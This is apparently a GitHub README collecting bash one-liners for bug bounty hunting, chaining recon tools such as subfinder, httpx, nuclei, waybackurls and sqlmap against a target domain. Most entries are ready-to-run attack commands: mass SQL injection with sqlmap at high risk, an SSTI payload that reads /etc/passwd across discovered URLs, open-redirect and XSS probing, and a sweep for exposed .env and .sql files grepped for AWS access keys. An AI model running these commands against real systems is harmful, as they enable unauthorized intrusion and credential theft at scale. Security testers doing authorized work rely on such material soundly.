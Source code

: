 # Oneliner-Bugbounty
A collection oneliner scripts for bug bounty

## List tools
- [Subfinder](https://github.com/projectdiscovery/subfinder)
- [Naabu](https://github.com/projectdiscovery/naabu)
- [httpx](https://github.com/projectdiscovery/httpx)
- [Nuclei](https://github.com/projectdiscovery/nuclei)
- [Waybackurls](https://github.com/tomnomnom/waybackurls)
- [DNSProbe](https://github.com/projectdiscovery/dnsprobe)
- [gf](https://github.com/tomnomnom/gf)
- [sqlmap](https://github.com/sqlmapproject/sqlmap)
- [qsreplace](https://github.com/tomnomnom/qsreplace)
- [hakrawler](https://github.com/hakluke/hakrawler)
- [Puredns](https://github.com/d3mondev/puredns)
- [GauPlus](https://github.com/bp0lr/gauplus)
- [uro](https://github.com/s0md3v/uro)

### Auto scanner

```bash
subfinder -d site.com -all | naabu | httpx | nuclei -t nuclei-templates
```

### Finding files (For example in here .json file)

```bash
subfinder -d site.com -all | naabu | httpx | waybackurls | grep -E ".json(?:onp?)?$"
```

### Find interesting subdomain (For example like admin.staging.example.com) 

```bash
subfinder -d site.com -all | dnsprobe -silent | cut -d ' ' -f1 | grep --color 'dmz\|api\|staging\|env\|v1\|stag\|prod\|dev\|stg\|test\|demo\|pre\|admin\|beta\|vpn\|cdn\|coll\|sandbox\|qa\|intra\|extra\|s3\|external\|back'
```

### Find SQL injection at scale

```bash
subfinder -d site.com -all -silent | waybackurls | sort -u | gf sqli > gf_sqli.txt; sqlmap -m gf_sqli.txt --batch --risk 3 --random-agent | tee -a sqli.txt
```

### Find open redirects at scale

```bash
subfinder -d site.com -all -silent | waybackurls | sort -u | gf redirect | qsreplace 'https://example.com' | httpx -fr -title --match-string 'Example Domain'
```

### Find SSTI at scale

```bash
echo "domain" | subfinder -silent | waybackurls | gf ssti | qsreplace "{{''.class.mro[2].subclasses()[40]('/etc/passwd').read()}}" | parallel -j50 -q curl -g | grep  "root:x"
```

### Scanning top exploited vulnerabilities according to CISA

```bash
subfinder -d site.com -all -silent | httpx -silent | nuclei -rl 50 -c 15 -timeout 10 -tags cisa -vv
```

### Bruteforce subdomains

```bash
subfinder -d site.com -all -silent | httpx -silent | hakrawler | tr "[:punct:]" "\n" | sort -u > wordlist.txt

puredns bruteforce wordlist.txt site.com -r resolvers.txt -w output.txt
```

### Finding Cross-Site Scripting (XSS) using KnoXSS API

```bash
echo "domain" | subfinder -silent | gauplus | grep "=" | uro | gf xss | awk '{ print "curl https://knoxss[.]me/api/v3 -d \"target="$1 "\" -H \"X-API-KEY: APIKNOXSS\""}' | sh
```

### Clean list of host, port, and version

```bash
mkdir nmap; cat targets.txt | parallel -j 35 nmap {} -sTVC -host-timeout 15m -oN nmap/{} -p 22,80,443,8080 --open > /dev/null 2>&1; cd nmap; grep -Hari "/tcp" | tee -a ../services.txt; cd ../
```

### Waybackurls validator

```bash
waybackurls http://example.com | grep "url" | xargs -n 1 curl -s -o /dev/null -w "%{http_code} > %{url_effective}\n" | sort
```

### Extract endpoints from JS (Part 1)

```bash
curl -L -k -s https://www.example.com | tac | sed "s#\\\/#\/#g" | egrep -o "src['\"]?\s*[=:]\s*['\"]?[^'\"]+.js[^'\"> ]*" | awk -F '//' '{if(length($2))print "https://"$2}' | sort -fu | xargs -I '%' sh -c "curl -k -s \"%\" | sed \"s/[;}\)>]/\n/g\" | grep -Po \"(['\\\"](https?:)?[/]{1,2}[^'\\\"> ]{5,})|(\.(get|post|ajax|load)\s*\(\s*['\\\"](https?:)?[/]{1,2}[^'\\\"> ]{5,})\"" | awk -F "['\"]" '{print $2}' | sort -fu
```

### Extract endpoints from JS (Part 2)

```bash
curl -Lks https://example.com | tac | sed "s#\\\/#\/#g" | egrep -o "src['\"]?\s*[=:]\s*['\"]?[^'\"]+.js[^'\"> ]*" | sed -r "s/^src['\"]?[=:]['\"]//g" | awk -v url=https://example.com '{if(length($1)) if($1 ~/^http/) print $1; else if($1 ~/^\/\//) print "https:"$1; else print url"/"$1}' | sort -fu | xargs -I '%' sh -c "echo \"\n##### %\";wget --no-check-certificate --quiet \"%\"; basename \"%\" | xargs -I \"#\" sh -c 'linkfinder.py -o cli -i #'"
```

### Extract endpoints from JS (Part 3)

```bash
curl -Lks https://example.com | tac | sed "s#\\\/#\/#g" | egrep -o "src['\"]?\s*[=:]\s*['\"]?[^'\"]+.js[^'\"> ]*" | sed -r "s/^src['\"]?[=:]['\"]//g" | awk -v url=https://example.com '{if(length($1)) if($1 ~/^http/) print $1; else if($1 ~/^\/\//) print "https:"$1; else print url"/"$1}' | sort -fu | xargs -I '%' sh -c "echo \"\n##### %\";wget --no-check-certificate --quiet \"%\";curl -Lks \"%\" | sed \"s/[;}\)>]/\n/g\" | grep -Po \"('#####.*)|(['\\\"](https?:)?[/]{1,2}[^'\\\"> ]{5,})|(\.(get|post|ajax|load)\s*\(\s*['\\\"](https?:)?[/]{1,2}[^'\\\"> ]{5,})\" | sort -fu" | tr -d "'\""
```

### Extract endpoints from JS (Part 4)

```bash
curl -Lks https://example.com | tac | sed "s#\\\/#\/#g" | egrep -o "src['\"]?\s*[=:]\s*['\"]?[^'\"]+.js[^'\"> ]*" | sed -r "s/^src['\"]?[=:]['\"]//g" | awk -v url=https://example.com '{if(length($1)) if($1 ~/^http/) print $1; else if($1 ~/^\/\//) print "https:"$1; else print url"/"$1}' | sort -fu | xargs -I '%' sh -c "echo \"'##### %\";curl -k -s \"%\" | sed \"s/[;}\)>]/\n/g\" | grep -Po \"('#####.*)|(['\\\"](https?:)?[/]{1,2}[^'\\\"> ]{5,})|(\.(get|post|ajax|load)\s*\(\s*['\\\"](https?:)?[/]{1,2}[^'\\\"> ]{5,})\" | sort -fu" | tr -d "'\""
```

### Find Access Keys for IAM

```bash
echo example.com | subfinder -silent -all | httpx -silent -path ".env",".mysql_history","echo $(echo $(</dev/stdin) | cut -d "." -f2).sql" -mc 200 -ports 80,443,8080,8443 | grep -E -i "AKIA[A-Z0-9]{16}"
```

### Subdomain enumeration with Spyse API

```bash
curl -XGET "https://api.sypse.com/v3/data/domain/subdomain?limit=100&offset=100&domain=example.com" -H "Accept: application/json" -H "Authorization: Bearer TOKEN_HERE" 2>/dev/null | jq '.data.items | .[] | .name' | sed -e 's/^"//' -e 's/"$//' | grep example.com
```

## References
- [ReconOne](https://twitter.com/ReconOne_)
- [jdksec](https://twitter.com/jdksec/status/1236891532256575488)
- [atikqur007](https://twitter.com/atikqur007/status/1253235713023320064)
- [ofjaaah](https://twitter.com/ofjaaah/status/1532581839344394241)
- [pikpikcu](https://twitter.com/sec715/status/1295216521501908992)
- [gwen001](https://gist.github.com/gwen001/0b15714d964d99c740a7e8998bd483df)
- [sazekodzeb](https://twitter.com/sazekodzeb/status/1535967868390711302)
- [TheDarkSideOps](https://twitter.com/TheDarkSideOps/status/1310744404605501441)